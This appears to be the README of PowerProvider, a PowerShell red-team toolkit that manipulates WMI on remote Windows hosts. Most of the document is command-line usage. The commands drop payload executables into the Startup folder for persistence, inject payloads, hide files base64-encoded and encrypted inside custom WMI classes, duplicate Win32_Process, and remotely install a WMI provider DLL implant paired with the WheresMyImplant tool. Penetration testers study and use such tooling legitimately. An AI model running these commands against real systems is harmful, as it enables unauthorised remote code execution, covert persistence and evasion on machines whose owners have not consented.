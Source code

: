 ## PowerProvider

PowerProvider: A toolkit to manipulate WMI. This toolkit provides functionality to:
* Duplicate Classes
* Create static classes for file storage
* Remote Install WMI Providers

Primarily used in conjunction with WheresMyImplant - https://github.com/0xbadjuju/WheresMyImplant/

### Methods
#### Class Duplication
  * **Invoke-WMIDuplicateClass**
    * Invoke-WMIDuplicateClass -TargetClassName Win32_Process -DuplicateClassName Win32_Create -ComputerName $ComputerName -Credential $Credential

#### File Transfer
  * **Invoke-WMIUpload**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Destination $Destination -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Inject -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
  * **Invoke-WMIRemoteExtract**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIRemoteExtract -PayloadName Payload.exe -Destination $Destination -ComputerName  $ComputerName -Credential $Credential

#### File Storage
  * **New-WMIFSClass**
    * New-WMIFSClass -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-Base64**
    * $File = ConvertTo-Base64 -FileName C:\Payload.exe -Inject
  * **Invoke-InsertFileThreaded**
    * Invoke-InsertFileThreaded -EncodedText $File -FileName Payload.exe -ComputerName $ComputerName -Credential $Credential -Verbose
  * **Invoke-RetrieveFile**
    * $File = Invoke-RetrieveFile -FileName C:\Payload.exe -ComputerName $ComputerName -Credential $Credential
  * **ConvertFrom-Base64**
    * $FileBytes = ConvertFrom-Base64 -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-EncryptedText**
    * $EncryptedString = ConvertTo-EncryptedText -PlaintextString $File
  * **ConvertFrom-EncryptedText**
    * $File = ConvertFrom-EncryptedText -EncryptedString $EncryptedString
    
#### Provider Install
  * **Install-WMIProviderInstallUtil**
    * Install-WMIProviderInstallUtil -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderPowerShell**
    * Install-WMIProviderPowerShell -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderExtention**
    * Install-WMIProvider -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Uninstall-WMIProviderExtention**
    * Uninstall-WMIProvider -ProviderName WheresMyImplant -ClassName Win32_Implant C:\WheresMy -ComputerName $ComputerName -Credential $Credential


### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
